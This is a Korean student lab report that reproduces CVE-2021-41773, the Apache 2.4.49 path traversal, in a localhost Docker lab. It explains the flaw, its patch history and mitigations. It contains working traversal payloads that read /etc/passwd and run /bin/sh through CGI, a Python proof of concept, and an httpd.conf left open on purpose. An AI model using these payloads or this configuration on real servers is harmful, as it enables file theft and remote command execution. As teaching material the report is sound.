






# 컨테이너 보안 실무(6/28)

9반 승창민 (8716) - https://github.com/RiFlYou

> 본 문서는 CVE-2021-41773을 로컬 Docker 실습 환경에서 재현하기 위한 보고서이다. 실습 서버는 `127.0.0.1:8080`에만 바인딩되도록 구성했다.

## 바로 실행하는 명령

아래 명령은 이 `README.md`가 있는 디렉터리에서 그대로 복사해서 실행하면 된다.

```bash
docker compose up -d --build
docker compose ps

curl --path-as-is "http://127.0.0.1:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

curl --path-as-is \
  "http://127.0.0.1:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
  -d "echo; id"

python3 poc.py

docker compose down -v
```

필요 파일은 모두 이 저장소에 포함되어 있으며, 텍스트 파일은 UTF-8로 저장했다.

## 재현성 및 위험도 평가

### Reproducibility: 100%

본 제출물은 `README.md`가 있는 디렉터리에서 다음 명령을 그대로 실행하면 취약 환경이 구성되도록 작성하였다.

```bash
docker compose up -d --build
python3 poc.py
```

제출 전 커밋 대상 파일을 기준으로 기존 컨테이너를 제거한 깨끗한 상태에서 `docker compose up -d --build`와 `python3 poc.py`를 다시 실행했고, `/etc/passwd` 파일 읽기와 CGI 기반 명령 실행이 모두 재현되는 것을 확인하였다.

검증에 사용한 핵심 명령은 다음과 같다.

```bash
docker compose down -v --remove-orphans
docker compose up -d --build
docker compose ps
python3 poc.py
docker compose down -v
```

### Risk Score: 9.8 / 10.0

본 실습 환경에서 CVE-2021-41773은 CVSS v3.1 기준 9.8점으로 평가한다.

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

네트워크를 통해 인증 없이 악용 가능하고, 사용자 상호작용이 필요하지 않으며, CGI가 활성화된 조건에서는 Apache 프로세스 권한으로 명령 실행이 가능하다. 따라서 기밀성, 무결성, 가용성에 모두 높은 영향을 줄 수 있다.

단, CGI가 비활성화된 환경에서는 영향이 파일 읽기 중심으로 제한될 수 있으므로 실제 위험도는 서버 설정에 따라 달라질 수 있다. 본 실습 환경은 CGI를 의도적으로 활성화하여 RCE까지 재현하였다.

## 1. CVE 취약점 선택

CVE 취약점을 분석하는 것 자체가 처음 있는 경험이었던 만큼 해당 부분에서는 생성형 AI의 도움을 받아보기로 했다.

CVE-2021-41773을 추천 받았다.


해당 취약점의 내용을 파악하기 위해서 NIST(https://nvd.nist.gov/vuln/detail/CVE-2021-41773)와 GitHub(https://github.com/advisories/GHSA-29h7-gr57-5f8r)에 직접 들어가서 내용을 확인해보기 했다.


(NIST)


(GitHub)

## 2. CVE-2021-41773

```text
#GitHub Description

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49.
An attacker could use a path traversal attack to map URLs to files outside the expected document root.
If files outside of the document root are not protected by "require all denied" these requests can succeed.
Additionally this flaw could leak the source of interpreted files like CGI scripts.
This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions.
```

### 개요

Apache 2.4.49에서 URL 경로 정규화 로직 변경으로 인해 발생한 경로 순회(path traversal) 취약점. 조건에 따라 파일 노출부터 원격 코드 실행(RCE)까지 가능할 수 있는 취약점이라는 모양이다. Apache 2.4.49 버전에 한하여 존재한다.

여기서 Apache, 정식 명칭 Apache HTTP Server는 전세계적으로 가장 많이 사용되는 오픈 소스 웹 서버 중 하나이고, 경로 순회 취약점이란 웹 서버가 사용자가 요청한 파일 경로를 제대로 검증하지 않아서 원래 접근이 허용되지 않은 폴더나 파일까지 접근이 가능하게 되는 보안 취약점이다.

### 발생 원인 & 내용

Apache는 사용자가 요청한 URL을 실제 파일 시스템 경로로 변환하기 이전에 `.` 또는 `..`와 같은 경로 요소를 제거하는 정규화 과정을 거친다. 그러나 Apache 2.4.49의 `ap_normalize_path()`는 URL 디코딩과 `..` 경로 제거를 같은 루프에서 처리했고, `.%2e/`처럼 첫 번째 점은 평문이고 두 번째 점만 URL 인코딩된 경우 이를 `../`로 인식하지 못했다.

즉 `%2e`는 `.`으로 디코딩되므로 `.%2e/`는 의미상 `../`와 같다. 하지만 취약한 정규화 로직에서는 첫 번째 `.`을 검사하는 시점에 다음 문자가 `%`이기 때문에 `../`로 판단하지 못했고, 이후 `%2e`가 `.`으로 디코딩되더라도 이미 `../` 제거 검사가 지나간 뒤였다. 그 결과 Alias 또는 ScriptAlias로 매핑된 디렉터리 밖의 파일에 접근할 수 있었다.

```text
정상적으로 차단되어야 하는 의미상의 경로:
  /icons/../../../../etc/passwd

실제 PoC 요청:
  /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

즉 인코딩을 우회해 정규화 과정을 속이는 취약점이다.

### 취약 조건

본 실습에서 CVE-2021-41773을 재현하기 위해 의도적으로 다음 조건을 구성하였다.

1. Apache HTTP Server 2.4.49 사용
2. `Alias /icons/` 설정 사용
3. `<Directory /> Require all granted`로 전역 디렉터리 접근 허용
4. `ScriptAlias /cgi-bin/` 및 `Options +ExecCGI`를 통해 CGI 실행 허용
5. 로컬 Docker 환경에서만 접근 가능하도록 `127.0.0.1:8080:80`으로 포트 제한

| 단계 | 조건 | 결과 |
|---|---|---|
| 1단계: 파일 노출/LFI | Alias로 매핑된 디렉터리 밖의 파일이 `Require all denied`로 보호되지 않음 | `/etc/passwd` 등 임의 파일 읽기, CGI 스크립트 소스코드 유출 |
| 2단계: RCE | `mod_cgi`가 활성화되어 있고, CGI 별칭 경로(`/cgi-bin/`)에 대해 실행 권한이 열려 있음 | POST 요청 body에 셸 명령을 실어 보내면 서버가 실행 → 원격 코드 실행 |

이때 해당 취약점은 설정 정도에 따라서 기본적으로는 파일 노출/LFI, 그리고 `mod_cgi`가 활성화되어 있고 CGI 별칭 경로에 대해 실행 권한이 열려 있는 경우에는 원격 코드 실행(Remote Code Execution)까지 가능하다.

참고로 해당 취약점은 2.4.49 버전에서 발견, 2.4.50 버전에서 불완전하게 패치되었고 이로 인하여 CVE-2021-42013 취약점이 발생했다. 2.4.51 버전에서 완전히 패치되어 현재 Apache 버전에서는 해당 취약점이 존재하지 않는 상태이다.

## 3. 취약점 실제 재현

### [!] Docker & 컨테이너(Container)

컨테이너(Container)는 실행 중인 컴퓨터의 커널에 라이브러리, 실행파일을 격리하고 이 공간 내에 독립된 프로세스 및 네트워크를 실행시키는 기술과 이를 위한 소프트웨어 구성 일체를 지칭한다.

도커(Docker)는 2014년 6월에 정식 출시된 컨테이너를 활용하여 소프트웨어를 배포, 구동하기 위한 오픈 소스 플랫폼이며, 컨테이너를 만들고 실행하는 가장 대중적인 도구이다.

### [!] 이미지(Image) & Dockerfile

이미지: 컨테이너를 실행하기 위한 패키지. 애플리케이션 실행을 위해 필요한 것들이 담겨 있다.

Dockerfile: 해당 이미지를 만들기 위한 설계도.

### 3-1. 파일 준비

작업할 폴더(`cve-2021-41773`) 안에 `cgi-bin`, `public`, `docker-compose.yml` 등을 준비한다.



이 저장소의 파일 구조는 다음과 같다.

```text
.
├── Dockerfile
├── README.md
├── cgi-bin
│   └── hello.sh
├── docker-compose.yml
├── httpd.conf
├── poc.py
├── public
│   └── index.html
├── 1.png
├── 2.png
├── 3.png
├── 4.png
├── 5.png
├── 6.png
├── 7.png
├── 8.png
└── 9.png
```

### 3-2. Docker 코드 준비

본 실습에서는 취약한 Apache 2.4.49를 직접 설치하는 대신 Docker 컨테이너 내부에서 실행한다. 이때 Docker는 애플리케이션 실행 환경을 이미지로 고정한 이후, 컨테이너로 실행해 독립된 실행 환경을 제공, 취약한 소프트웨어를 로컬과 분리된 환경에서 안전하게 재현할 수 있게 도와준다.

#### Dockerfile

```dockerfile
FROM debian:bullseye-slim AS builder

ARG HTTPD_VERSION=2.4.49

RUN apt-get update && apt-get install -y --no-install-recommends \
    ca-certificates \
    curl \
    gcc \
    make \
    libapr1-dev \
    libaprutil1-dev \
    libpcre3-dev \
    && rm -rf /var/lib/apt/lists/*

WORKDIR /tmp

RUN curl -fsSLO https://archive.apache.org/dist/httpd/httpd-${HTTPD_VERSION}.tar.gz \
    && tar -xzf httpd-${HTTPD_VERSION}.tar.gz \
    && cd httpd-${HTTPD_VERSION} \
    && ./configure \
        --prefix=/usr/local/apache2 \
        --with-mpm=prefork \
        --enable-so \
        --enable-mpms-shared=all \
        --enable-mods-shared=all \
        --enable-cgi \
        --enable-alias \
    && make -j"$(nproc)" \
    && make install

FROM debian:bullseye-slim

RUN apt-get update && apt-get install -y --no-install-recommends \
    ca-certificates \
    libapr1 \
    libaprutil1 \
    libpcre3 \
    && rm -rf /var/lib/apt/lists/* \
    && useradd -r -s /usr/sbin/nologin apache

COPY --from=builder /usr/local/apache2 /usr/local/apache2
COPY httpd.conf /usr/local/apache2/conf/httpd.conf
COPY public/index.html /usr/local/apache2/htdocs/index.html
COPY cgi-bin/hello.sh /usr/local/apache2/cgi-bin/hello.sh

RUN chmod +x /usr/local/apache2/cgi-bin/hello.sh \
    && chown -R apache:apache /usr/local/apache2/htdocs /usr/local/apache2/cgi-bin

EXPOSE 80

CMD ["/usr/local/apache2/bin/httpd", "-DFOREGROUND"]
```

Apache 2.4.49의 소스코드를 다운로드하고 컴파일한 뒤, 실제 실행에 필요한 파일들을 복사해서 최종 컨테이너 이미지를 만든다. 빌드 도구를 최종 이미지에 남기지 않기 위함이다.

#### docker-compose.yml

```yaml
services:
  apache:
    build: .
    container_name: cve-2021-41773-apache
    ports:
      - "127.0.0.1:8080:80"
```

`docker-compose.yml`은 생성된 이미지를 실제 컨테이너로 실행하기 위한 설정 파일이다. 본 실습에서는 취약한 Apache 서버가 빌드 및 실행되도록 구성하였고, 포트 매핑을 `127.0.0.1:8080:80`으로 하여 취약 서버가 외부 네트워크에 노출되지 않고 로컬에서만 접근할 수 있게 하였다.

#### httpd.conf

```apache
ServerRoot "/usr/local/apache2"
Listen 80
ServerName localhost

LoadModule mpm_prefork_module modules/mod_mpm_prefork.so
LoadModule authz_core_module modules/mod_authz_core.so
LoadModule unixd_module modules/mod_unixd.so
LoadModule dir_module modules/mod_dir.so
LoadModule mime_module modules/mod_mime.so
LoadModule alias_module modules/mod_alias.so
LoadModule cgi_module modules/mod_cgi.so
LoadModule log_config_module modules/mod_log_config.so

User apache
Group apache

DocumentRoot "/usr/local/apache2/htdocs"
DirectoryIndex index.html
TypesConfig conf/mime.types

<Directory />
    Require all granted
</Directory>

<Directory "/usr/local/apache2/htdocs">
    Options Indexes FollowSymLinks
    AllowOverride None
    Require all granted
</Directory>

Alias /icons/ "/usr/local/apache2/icons/"
<Directory "/usr/local/apache2/icons">
    Options Indexes MultiViews
    AllowOverride None
    Require all granted
</Directory>

ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"
<Directory "/usr/local/apache2/cgi-bin">
    AllowOverride None
    Options +ExecCGI
    Require all granted
</Directory>

AddHandler cgi-script .cgi .sh

LogFormat "%h %l %u %t \"%r\" %>s %b" common
ErrorLog /proc/self/fd/2
CustomLog /proc/self/fd/1 common
```

Apache 2.4.49를 설치한 이후 일부러 취약점이 존재하는 채로 실행시킨다.

```apache
<Directory />
    Require all granted
</Directory>
```

CVE-2021-41773 취약점은 서버가 전역 디렉터리 접근을 허용하는 경우에 인코딩된 경로를 통해서 웹 루트 밖의 파일까지 접근할 수 있다. 이를 실습해보기 위해서 루트 디렉터리 이후 `/` 아래의 접근을 전역적으로 허용한다.

```apache
ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"
<Directory "/usr/local/apache2/cgi-bin">
    AllowOverride None
    Options +ExecCGI
    Require all granted
</Directory>
AddHandler cgi-script .cgi .sh
```

또한 CGI 실행 가능성을 확인하기 위해서 CGI도 켜 두었다.

`/cgi-bin/` URL로 들어오는 요청은 CGI 프로그램 실행 경로로 처리하고, `.cgi` 또는 `.sh` 파일은 CGI 스크립트로 실행한다.

### [!] CGI

Common Gateway Interface, 웹 서버가 단순 HTML 파일만 보내는 것이 아니라 서버 내 프로그램을 실행해서 그 결과를 웹 응답으로서 돌려주는 것.

```text
#일반적인 정적 웹 요청
사용자 → Apache → html 파일 읽기 → html 반환

#CGI 요청
사용자 → Apache → CGI 프로그램 실행 → 실행 결과 반환
```

여기서 핵심은 CGI 프로그램을 통해서 웹 요청만으로 서버 내부 프로그램 실행이 이어질 수 있다는 것.

#### public/index.html

```html
<!doctype html>
<html>
<head>
  <meta charset="utf-8">
  <title>CVE-2021-41773 Lab</title>
</head>
<body>
  <h1>Apache 2.4.49 CVE-2021-41773 Lab</h1>
</body>
</html>
```

해당 주소로 접속했을 때 Apache가 정상 실행 중인지 확인하기 위한 HTML이다.

#### cgi-bin/hello.sh

```sh
#!/bin/sh
printf 'Content-Type: text/plain\n\n'
echo 'CGI is enabled'
```

CGI가 되는지 확인하기 위한 스크립트이다.

### 3-3. Docker build

본 실습에서는 Docker Desktop을 이용했음. 최초 빌드 시 Dockerfile이 Apache HTTP Server 2.4.49 소스코드를 Apache 공식 archive에서 다운로드하므로, 빌드 환경에서 인터넷 연결이 필요하다.



```bash
docker compose up -d --build
docker compose ps
```



빌드

## 4. 실행 결과

### 4-1. 경로 순회(Path Traversal)

우선 경로 순회(Path Traversal) 취약점을 이용해서 컨테이너 내부의 `/etc/passwd` 파일을 읽기 시도했다.

```bash
curl --path-as-is \
  "http://127.0.0.1:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

`curl` → HTTP request 보내기

`--path-as-is` → URL 내 경로를 별도의 정리 없이, HTTP request 값 그대로 보내는 설정

`http://127.0.0.1:8080` → PC의 로컬 주소

이전에 `docker-compose.yml`에서 다음과 같이 설정했다.

```yaml
ports:
  - "127.0.0.1:8080:80"
```

따라서 실제 실행 흐름은 다음과 같다.

```text
http://127.0.0.1:8080 → Docker가 컨테이너 내부 80번 port로 전달 → Apache가 request 처리
```

그 다음에 경로를 살펴보면 다음과 같다.

```text
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

`/icons` → `httpd.conf`에서 설정한 Alias 경로

즉 `/icons`로 시작하는 요청은 컨테이너 내부의 `/usr/local/apache2/icons` 디렉터리에 연결한다.

이때 `%2e`는 URL 인코딩 된 `.` 이기에 해당 경로를 디코딩 하면 다음과 같이 해석될 수 있다.

```text
/icons/../../../../etc/passwd
```

이는 Apache 2.4.49에서 URL 인코딩 된 패턴을 제대로 정규화하지 못했기에 생기는 문제라고 할 수 있다.



실제 실행 결과

### [!] Alias

Apache에서 URL 경로를 실제 파일 시스템 경로에 연결해주는 설정이다.

Apache는 기본적으로 DocumentRoot에서 파일을 찾지만, Alias를 사용하는 경우 DocumentRoot 밖의 디렉터리 또한 URL로 연결할 수 있게 해준다는 특징이 있다.

### 4-2. 경로 순회(Path Traversal) + CGI

이번에는 경로 순회 취약점과 CGI 기능을 결합해서 `/bin/sh`를 실행해보기로 했다.

```bash
curl --path-as-is \
  "http://127.0.0.1:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
  -d "echo; id"
```

이때 `cgi-bin`은 `httpd.conf`에서 다음과 같이 설정되어 있었다.

```apache
ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"
```

`ScriptAlias`는 일반 `Alias`와 달리 URL 경로를 실제 파일 경로에 연결하는 것 뿐만 아니라 그 경로의 파일을 CGI 프로그램으로 실행시키기까지 한다. 해당 실행 흐름을 정리하면 다음과 같다.

1. 사용자가 `/cgi-bin/`으로 시작하는 URL에 요청을 보냄
2. Apache는 이 요청을 CGI 실행 대상이라고 판단함
3. 경로 안의 `.%2e`, `%2e%2e`가 상위 디렉터리 이동으로 해석 → `/usr/local/apache2/cgi-bin/` 밖으로 탈출
4. 최종적으로 컨테이너 내부의 `/bin/sh`에 도달함
5. Apache가 `/bin/sh`를 CGI 프로그램처럼 실행함

`-d "echo; id"` 이후 HTTP 본문에 요청을 보낸다.



실제로 `/bin/sh`가 실행된 것을 확인할 수 있다. 이때 핵심은 root 권한이 탈취된 것이 아니라 Apache 웹 서버의 프로세스 권한으로 원격 명령 실행(RCE)이 가능하다는 것.

## 5. PoC

이제 실제 취약점 재현을 외부 의존성 없이 수행하도록 하는 Python 코드를 작성했다.

```python
import argparse
import http.client
from urllib.parse import urlparse

FILE_READ_PATH = "/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
RCE_PATH = "/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"


def parse_target(url: str):
    parsed = urlparse(url)

    if parsed.scheme != "http":
        raise SystemExit("[!] Only http:// targets are supported in this local lab")

    if parsed.hostname not in {"127.0.0.1", "localhost"}:
        raise SystemExit("[!] This PoC is intentionally limited to localhost lab targets")

    host = parsed.hostname
    port = parsed.port or 80
    return host, port


def send_request(host: str, port: int, method: str, path: str, body: str | None = None):
    conn = http.client.HTTPConnection(host, port, timeout=5)
    headers = {}
    data = None

    if body is not None:
        data = body.encode("utf-8")
        headers["Content-Type"] = "application/x-www-form-urlencoded"

    try:
        conn.request(method, path, body=data, headers=headers)
        response = conn.getresponse()
        text = response.read().decode("utf-8", errors="replace")
        return response.status, response.reason, text
    finally:
        conn.close()


def main():
    parser = argparse.ArgumentParser(
        description="Local PoC for CVE-2021-41773 Apache 2.4.49 Docker lab"
    )
    parser.add_argument(
        "--url",
        default="http://127.0.0.1:8080",
        help="Target base URL. Default: http://127.0.0.1:8080",
    )
    args = parser.parse_args()

    host, port = parse_target(args.url)
    print("Target :", f"http://{host}:{port}")

    print("[1] Path Traversal Vulnerability")
    print("Request Path :", FILE_READ_PATH)
    status, reason, body = send_request(host, port, "GET", FILE_READ_PATH)
    print("Status :", status, reason)

    if "root:x:0:0:" in body:
        print("Success. /etc/passwd was disclosed")
    else:
        print("Fail. /etc/passwd was not disclosed")

    print("\n--- /etc/passwd preview ---")
    print("\n".join(body.splitlines()[:10]))

    print("\n[2] Path Traversal + CGI RCE")
    print("Request Path :", RCE_PATH)
    print("Post Body : echo; id")
    status, reason, body = send_request(
        host,
        port,
        "POST",
        RCE_PATH,
        body="echo; id",
    )
    print("Status :", status, reason)

    if "uid=" in body:
        print("RCE Success")
    else:
        print("RCE Failed.")

    print("\n--- command output ---")
    print(body.strip())


if __name__ == "__main__":
    main()
```

실행 명령은 다음과 같다.

```bash
python3 poc.py
```



실행 결과

## 6. 취약점 발생 이유

https://httpd.apache.org/security/vulnerabilities_24.html

핵심은 Apache 2.4.49의 `ap_normalize_path()`가 URL 디코딩과 `..` 경로 제거를 동일한 루프에서 처리했는데, `.%2e/` 처럼 첫 번째 점은 평문, 두 번째 점만 URL 인코딩 되는 경우에는 이를 `../` 로 인식하지 못했다는 점이다.

Apache 공식 설명상 CVE-2021-41773은 2.4.49에서 추가·변경된 path normalization 로직의 결함으로 발생했고, Alias 계열 지시어 밖의 파일에 접근할 수 있게 만든 취약점이다.

Apache 2.4.50에서는 이 문제를 고치기 위해 `.%2e/` 패턴을 직접 인식하는 조건이 추가됐다. 실제 2.4.50 코드에는 `/xx/.%2e/`도 제거한다는 주석이 들어가고, 두 번째 점 위치가 실제 `.` 이거나 `%2e` 인 경우를 함께 검사하도록 바뀌었다.

https://github.com/apache/httpd/commit/98246aa96079dad5f7b20521bbc0142a04f1c5e7

```text
../
.%2e/
.%2E/
# 이런 케이스들을 방지
```

하지만 여전히 다음과 같은 이중 인코딩 계열 우회 취약점이 남아 있었다.

```text
.%%32%65/
```

Apache 공식 문서에서도 해당 취약점이 CVE-2021-42013으로 이어졌다고 명시하고 있다.

https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013

이후 Apache 2.4.51에서는 `ap_normalize_path()`에서 `%`를 만났을 때 뒤에 정상적인 두 자리 hex가 없으면 `ret = 0`으로 실패 처리하도록 바꾸면서 해당 취약점은 해결이 되었다. 2.4.50에서 문제가 됐던 `%%32%65`처럼 첫 `%` 뒤에 hex 두 자리가 오지 않는 비정상 인코딩을 통과시키지 않음.

## 7. 취약점 대응 방안

### 0. Apache를 최신 버전으로 유지하기

CVE-2021-41773, CVE-2021-42013 모두 Apache 2.4.51 버전 이후 패치된 취약점이기 때문에 Apache를 안전한 상태로 유지하는 것이 가장 근본적인 해결책이 된다.

### 1. URL 인코딩 정규화 알고리즘 주의하기

CVE-2021-41773은 URL 정규화 과정의 약점을 이용한 경로 순회 취약점을 이용했고, 실제로 이를 제대로 패치하지 못하자 CVE-2021-42013와 같은 새로운 취약점이 등장했다. 현재 Apache가 취한 방법과 마찬가지로 URL 인코딩 정규화 과정에 신경을 쓰는 것이 중요하다.

또한 입력값 검증은 더 이상 인코딩된 문자가 없이, 완전하게 디코딩 된 상태에서 진행하도록 하여 로직 상 위험을 발생시킬 수 있는 여지를 최소화하는 것이 좋다.

### 2. Alias 및 ScriptAlias 경로 최소화

해당 취약점은 Alias와 ScriptAlias 지시어로 경로 밖 파일에 접근할 수 있어서 발생한 문제이다. 그렇기에 Alias, ScriptAlias를 사용할 때는 매핑된 실제 디렉터리 범위를 제한해야 하고, 불필요한 남용을 최소화해야 한다.

### 3. 불필요한 CGI 비활성화

해당 취약점을 이용한 RCE는 CGI를 통해 이루어졌다. CGI가 활성화된 경우 `/bin/sh`와 같은 실행 파일을 원격 실행이 가능할 수 있기 때문에 반드시 필요하지 않다면 해당 기능 또한 사용을 최소화하는 게 좋다.


### 4. 노출 범위 제한

취약한 실습 서버가 외부 네트워크에 노출되지 않도록 `docker-compose.yml`에서 포트 매핑을 다음과 같이 제한하였다.

```yaml
ports:
  - "127.0.0.1:8080:80"
```

이 설정은 호스트의 `127.0.0.1:8080`으로 들어온 요청만 컨테이너 내부 80번 포트로 전달한다. 따라서 같은 PC에서만 취약 Apache 서버에 접근할 수 있고 외부 네트워크에서는 접근할 수 없다. 실습이 끝난 뒤에는 다음 명령으로 컨테이너와 볼륨을 정리한다.

```bash
docker compose down -v
```
